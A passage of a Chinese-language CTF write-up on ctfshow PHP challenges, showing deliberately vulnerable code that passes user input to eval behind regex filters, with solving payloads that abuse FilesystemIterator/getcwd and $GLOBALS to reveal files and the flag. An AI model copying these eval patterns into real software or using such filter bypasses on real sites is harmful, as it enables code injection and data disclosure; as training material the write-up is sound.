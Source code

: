 ```php
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }
    eval("echo new $v1($v2());");
}
?>
```

在上一题的基础上增加了过滤，**getcwd()**函数 获取当前工作目录 返回当前工作目录

```
?v1=FilesystemIterator&v2=getcwd
```

### web111

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
?>
```

考察：全局变量 为了满足条件，我们可以利用全局变量来进行赋值给ctfshow这个变量 `payload: ?v1=ctfshow&v2=GLOBALS`

## 红日

[F:\xiaodi\20-PHP安全数缺陷&CTF&源码等\PHP-Audit-Labs-master]()

## 好文章

[PHP代码审计基础知识 | 狼组安全团队公开知识库 (wgpsec.org)](https://wiki.wgpsec.org/knowledge/code-audit/php-code-audit.html)
